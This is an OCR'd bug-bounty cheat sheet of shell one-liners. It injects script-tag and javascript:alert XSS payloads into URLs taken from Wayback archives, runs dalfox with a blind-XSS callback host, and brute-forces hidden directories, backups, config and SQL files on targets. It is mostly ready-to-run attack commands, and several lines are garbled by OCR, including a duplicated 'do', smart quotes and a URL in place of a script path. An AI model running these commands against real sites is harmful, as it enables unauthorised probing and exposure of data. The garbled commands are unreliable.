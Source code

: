 ```
waybackurls target.com | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

```
cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht

```

```
cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)"

```

```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'

```

---

## **Hidden Dirs:**

```
dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt

```

```
ffuf -c -w urls.txt:FUZZ1 -w wordlist.txt:FUZZ2 -u FUZZ1/FUZZ2 -mc 200 -ac -recursion -v -of json -o output

```

## **ffuf json to txt output**

```
cat output.json | jq | grep -o '"url": ".*"' | grep -o 'https://[^"]*'

```

**Search for Sensitive files from Wayback**

```
waybackurls domain.com| grep - -color -E "1.xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"

```
